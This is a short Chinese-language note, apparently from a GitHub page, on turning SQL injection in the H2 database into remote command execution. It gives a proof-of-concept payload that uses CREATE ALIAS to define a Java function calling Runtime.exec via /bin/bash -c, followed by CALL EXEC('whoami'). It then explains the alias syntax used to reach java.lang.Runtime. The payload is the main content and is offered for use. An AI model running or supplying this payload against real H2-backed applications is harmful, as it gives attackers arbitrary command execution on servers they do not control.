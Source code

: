 h2数据库支持多行查询，在有注入点的时候有如下poc
poc:

CREATE ALIAS EXEC AS 'void e(String cmd) throws java.io.IOException{String[] command = {"/bin/bash", "-c", cmd};java.lang.Runtime rt= java.lang.Runtime.getRuntime();rt.exec(command);}';CALL EXEC("whoami")


CREATE ALIAS XXXXX AS是创建函数的语法，可以用$$your-code-here$$或者'xxxxx'来表示代码
CREATE ALIAS XXXXX FOR 'xxxx'是创建函数引用的语法,可以引用现有类的方法，比如java.lang.Runtime.getRuntime